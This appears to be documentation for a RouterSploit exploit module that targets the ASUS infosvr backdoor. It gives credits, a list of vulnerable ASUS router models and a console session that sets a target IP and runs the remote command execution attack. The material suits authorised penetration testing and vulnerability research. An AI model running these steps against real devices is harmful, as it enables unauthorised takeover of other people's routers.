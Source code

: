 # Asus Infosvr Backdoor RCE

## Description
Module exploits remote command execution in multiple ASUS devices. If the target is vulnerable, command loop is invoked that allows executing commands on operating system level.

## Authors
* Joshua "jduck" Drake; @jduck # vulnerability discovery
* Friedrich Postelstorfer # original proof of concept exploit
* Michal Bentkowski; @SecurityMB # routersploit module

## References
* [https://github.com/jduck/asus-cmd](https://github.com/jduck/asus-cmd)

## Vulnerable devices
* ASUS RT-N66U
* ASUS RT-AC87U
* ASUS RT-N56U
* ASUS RT-AC68U
* ASUS DSL-N55U
* ASUS DSL-AC68U
* ASUS RT-AC66R
* ASUS RT-AC66R
* ASUS RT-AC55U
* ASUS RT-N12HP_B1
* ASUS RT-N16

## Usage
```
rsf > use exploits/asus/infosvr_backdoor_rce
rsf (Asus Infosvr Backdoor RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1


rsf (Asus Infosvr Backdoor RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Asus Infosvr Backdoor RCE) > run
[*] Running module...
```
